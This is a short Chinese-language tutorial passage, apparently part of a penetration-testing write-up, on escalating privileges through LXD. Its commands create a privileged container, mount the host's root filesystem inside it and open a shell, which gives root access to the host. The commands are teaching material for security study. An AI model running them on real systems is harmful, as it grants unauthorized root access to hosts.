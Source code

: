 

#### 提权使用

生成一个初始化容器

```shell
lxc init test dijia -c security.privileged=true
//这里的test就是前面初始化的镜像别名
```

![](./pic-2/20-1.jpg)

![](./pic-2/20.jpg)



把磁盘挂载

```shell
lxc config device add dijia mydevice disk source=/ path=/mnt/root recursive=true
```

启动创建的dijia容器

```shell
lxc start dijia
```

![](./pic-2/21.jpg)





容器执行`/bin/sh`

```shell
lxc exec dijia /bin/sh
```
